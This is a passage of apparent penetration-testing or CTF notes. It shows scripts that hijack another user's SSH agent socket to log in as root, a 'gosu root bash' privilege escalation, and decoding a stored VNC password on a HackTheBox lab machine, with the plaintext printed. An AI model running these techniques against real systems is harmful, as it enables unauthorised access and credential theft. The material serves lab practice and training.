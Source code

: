 Alternative script:

```bash
#!/bin/bash
cd /tmp/ssh-*
export SSH_AUTH_SOCK=$PWD/$(ls)
#ssh-add -l
#ssh-add -1
ssh root@172.10.0.1 -p 2222
```

Alternative one-liner:

```bash
while true; do a=$(ls /tmp/ssh-*/agent.*); export SSH_AUTH_SOCK=$a; ssh root@172.18.0.1 -p 2222; done 2>/dev/null
```

### Gosu

An easy privilege escalation vector is:

```
gosu root bash
```

### Decode VNC Password

VNC Passwords in a file are stored obfuscated, but they can be broken. There’s a bunch of scripts out there to return the plain text. We can use [this one](https://github.com/trinitronx/vncpasswd.py), running the python and using `-d` for decrypt, and `-f secret` to point it at our file.

```
root@kali:~/hackthebox/poison-10.10.10.84# python /opt/vncpasswd.py/vncpasswd.py -d -f secret
Cannot read from Windows Registry on a Linux system
Cannot write to Windows Registry on a Linux system
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```





